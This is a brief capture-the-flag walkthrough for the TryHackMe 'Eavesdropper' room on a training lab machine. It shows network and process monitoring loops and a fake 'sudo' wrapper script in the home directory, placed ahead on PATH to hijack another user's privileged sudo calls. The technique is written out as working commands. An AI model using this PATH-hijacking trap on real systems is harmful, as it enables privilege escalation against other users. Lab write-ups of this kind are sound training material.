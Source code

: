 # TryHackMy Eavesdropper room:

https://tryhackme.com/room/eavesdropper

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ while true; do sleep 0.01; netstat -naplet; done`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat $HOME/sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH (via .profile & .bashrc) and wait for execution.

Check the /root with sudo wrapper.

Capture the flag :)
